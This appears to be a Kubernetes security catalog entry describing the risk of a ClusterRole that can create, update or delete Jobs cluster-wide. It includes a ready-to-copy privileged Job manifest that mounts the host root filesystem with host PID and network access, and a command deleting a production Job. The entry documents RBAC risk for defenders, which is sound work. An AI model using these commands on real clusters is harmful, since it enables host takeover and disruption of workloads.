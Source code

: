 ```yaml
---
id: 1041
title: "Manage Jobs cluster-wide (one-off privileged execution)"
description: "Allows creating, updating, or deleting Jobs across all namespaces. Jobs create one or more pods for batch tasks. This can be used to run a one-off pod with privileged settings, leading to code execution, privilege escalation, and tampering."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                     |
| ------------- | ----------------------------------------------------------------------------------------- |
| ID            | 1041                                                                                      |
| Name          | Manage Jobs cluster-wide (one-off privileged execution)                                   |
| Risk Category | Elevation of Privilege                                                                    |
| Risk Level    | {{< risk Critical >}}                                                                     |
| Role Type     | ClusterRole                                                                               |
| API Groups    | batch                                                                                     |
| Resources     | jobs                                                                                      |
| Verbs         | create, update, patch, delete                                                             |
| Tags          | {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating, updating, or deleting Jobs across all namespaces. Jobs create one or more pods for batch tasks. This can be used to run a one-off pod with privileged settings, leading to code execution, privilege escalation, and tampering.

## Abuse Scenarios

1. Create a new Job that runs a privileged pod once.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: batch/v1
kind: Job
metadata:
  name: privileged-job
spec:
  template:
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: attacker
        image: busybox
        command: ["/bin/sh", "-c", "echo 'Job Pwned!' > /host/job_pwned.txt"]
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
      restartPolicy: OnFailure
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Delete a critical Job, preventing a one-off task from completing.

```bash {copy=true}
kubectl delete job <job-name> -n <namespace>
# Example: kubectl delete job db-migration-job -n production

```
